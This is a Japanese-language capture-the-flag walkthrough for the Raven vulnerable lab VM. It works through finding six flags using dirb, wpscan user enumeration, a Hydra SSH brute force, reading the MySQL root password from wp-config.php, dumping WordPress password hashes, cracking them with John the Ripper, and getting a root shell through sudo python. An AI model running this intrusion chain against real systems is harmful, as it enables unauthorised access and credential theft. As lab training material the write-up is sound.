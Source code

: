 ## Raven 683~

## 目的
- flag1.txt <- webサイト
- flag2.txt <- ターゲットのフォルダ
- flag3.txt *2 <- SQLの中
- flag4.txt *2 <- SQLの中とrootフォルダ
- 合計で6つを見つける
## 実践
### ポートスキャンまでは同じ
- フォルダを作る
- 環境変数に登録する
  

### Dirbでサイトを探す
- `dirb $URL -r`
  - `-r` 再帰的に調査しない
  - 辞書ファイルを指定しないと、デフォルトの/usr/share/dirb/wordlists/common.txtファイルを使っている
### Webサイトを見て修正する
- `http://192.168.56.107/wordpress`ブラウザのパスを見て、wordpressが使われているのがわかる
- サイトが崩れているので直す
- `sudo vi /etc/hosts` 下のを書く
- `192.168.56.107 raven.local` 

### もう一度Webサイトを見てみる
- サイトで右クリック`view page source`で`ctrl + f`で検索する

### WPScanでWordPressをチェックする
  - wpscanをインストールできるようにNATに接続する
  - `sudo gem install wpscan`
  - `sudo wpscan --url 192.168.56.107/wordpress --enumerate u`
  - wpscanで得た名前をnames.txtに書いておく。`cat > names.txt`
    ```
    michael
    steven
    ```
### Hydraでパスワード探す
  - `sudo hydra ssh://192.168.56.107 -L names.txt -P /usr/share/john/password.lst -v -t 4`
  - httpでなく、sshなので注意
  - `michael`だけしかパスワードわからないので、そこで止める
### sshで接続
  - `ssh michael@$IP`
### MySQLの設定情報を見る
- wordpressの設定ファイルにuser,passworを探す
  - `cd /var/www/html/wordpress/`
  - `cat wp-config.php`
- portを探す `netstat -antp`
- MySQLのデフォルトポートは3306なので、それを使う
### MySQLに接続
- `mysql -h localhost -u root -pR@v3nSecurity`
- `-p`オプションはパスワードだが、なぜかスペースなしで続けてパスワードを書く。そもそもパスワードをコマンドに書かない
- mysql> こんなプロンプトが返ってきたら成功
- 注意: MySQLはコマンドの最後に`;`をつけないとダメ
- データベースに何が入っているか表示する `show databases;`
- wordpressが気になるので移動して見る `use wordpress;`
### MySQLの探索
- wordpressの中身にどんなのがあるか調べてみる `show tables;` 
- wp_usersが気になるので見てみる  
  - `select * from wp_users\G`
  - selectはprintみたいなもの
  - \Gは綺麗に表示してくれる。なしでやってみたらわかる
- `select concat(user_login, ":", user_pass) from wp_users into outfile '/tmp/hash.txt';`
- ユーザ名とパスワードの書いたhash.txtが作成される
### MySQLをさらに探索
- ブログの記事を保存してあるテーブルを見る
  - `select * from wp_posts\G`
- `quit;`
### ParrotOS側のhash.txtにコピーする
  - 通常パスワードの解析は攻撃側端末で行う理由は３つ
  - 1. ターゲット端末にJohnがインストールされてることはない
    2. ターゲット端末に負荷がかかるので見つかる可能性がある
    3. 攻撃端末の方が高スペックである
  - ターゲット端末のhash.txtをコピーして、ParrotOS側の端末のターミナルにペーストする
### John the ripper(ParrotOS側で)
  - hash.txtの場所に移動して、またはhash.txtを絶対パスで指定して以下を実行 
  - `sudo john --wordlist=/usr/share/wordlists/rockyou.txt hash.txt`
    - 過去に一度解析していたら以下のコマンドする
    - `john --show hash.txt` 
### sudo -l
  - userとpasswordがわかるので、sshでログインする
  - sshで接続
  - `sudo -l` Pythonがルート権限で使えるのを確認
### Pythonでrootシェルを取得
  - `sudo /usr/bin/python`
  - ここでPythonのプログラムが起動する。Pythonはシェルを起動できるので、Pythonで起動したものはrootになれる
  - `import os`
  - `os.system('/bin/bash')`
### ルートフラグを開く
  - `cd /root`
  - `cat flag4.txt`    
